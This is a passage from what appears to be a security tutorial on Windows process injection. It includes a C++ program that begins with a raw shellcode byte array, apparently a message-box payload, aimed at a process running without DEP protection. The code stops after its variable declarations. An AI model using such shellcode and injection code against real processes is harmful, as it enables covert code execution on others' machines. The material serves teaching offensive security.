 
![screenshot_7](/assets/img/posts/Process_Injection/cpp_execute_the_shellcode_executed.png)

OH yo-yo, as we expected our shellcode executed normally into the memory 🔥🔥   

Now we have a proof of concept. So what will happen if we modified our application to do a process injection for a process running without DEP protection? let's see what will happen in this situation.  


# PWN PROCESS INJECTION


We made a binary that takes a PID manually.  
PID will be any process running without DEP protection.  
```cpp 
#include <stdio.h>
#include <Windows.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] =
        "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
        "\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
        "\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
        "\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
        "\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
        "\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
        "\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
        "\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
        "\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
        "\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
        "\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
        "\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
        "\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
        "\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
        "\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
        "\x68\x70\x77\x6e\x58\x68\x52\x65\x74\x32\x31\xc9\x88\x4c\x24"
        "\x07\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
        "\x55\x08";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    DWORD oldPerms;
    DWORD PID = 17968;
```